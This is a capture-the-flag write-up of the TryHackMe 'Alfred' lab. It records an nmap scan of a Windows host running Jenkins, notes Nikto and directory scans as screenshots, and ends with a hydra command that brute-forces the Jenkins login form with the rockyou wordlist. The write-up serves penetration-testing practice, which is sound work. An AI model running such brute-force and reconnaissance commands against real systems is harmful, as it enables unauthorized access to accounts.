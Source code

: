 # Alfred Try Hack Me ( Parrotassassin15 )

### Target Information :

<br />

Server : Windows 10 <br>
Ports Open : 80, 3389, 22  <br>
Web Server :  Microsoft-IIS/7.5<br> 
Vulnerability : Weak AUTH<br>
Web Technologies : Jenkins (Jetty 9.4.z-SNAPSHOT)
<br />

<br />

### Areas Of Interest :

* Jetty 9.4.z-SNAPSHOT
* HTTP VERBS: OPTIONS, TRACE, GET, HEAD, POST 



<br>

### Initial Nmap Scan :
<br>

```
root@demon:~/eCPPT/Lab/alfred# nmap -sV -sC alfred.thm -oA alfred -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-29 00:51 UTC
Nmap scan report for alfred.thm (10.10.193.14)
Host is up (0.20s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: ALFRED
|   NetBIOS_Domain_Name: ALFRED
|   NetBIOS_Computer_Name: ALFRED
|   DNS_Domain_Name: alfred
|   DNS_Computer_Name: alfred
|   Product_Version: 6.1.7601
|_  System_Time: 2022-03-29T01:18:26+00:00
|_ssl-date: 2022-03-29T01:18:29+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2022-03-28T00:45:27
|_Not valid after:  2022-09-27T00:45:27
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1637.31 seconds
root@demon:~/eCPPT/Lab/alfred# 
```

<br>

### Nikto Scans :
<br>

For port 80: 

![](2022-03-28-21-50-22.png)

For port 8080: 

![](2022-03-28-22-11-17.png)

<br>


### Web Directory Scans :

<br>

Nothing for port 80 :

![](2022-03-28-21-53-25.png)


For port 8080 : 

![](2022-03-28-22-47-06.png)

<br>

## Login Panel :

<br>

![](2022-03-28-23-06-07.png)


## Brute Force :
<br>



```
hydra -s 8080 alfred.thm http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" -L user.txt -P rockyou.txt 
```
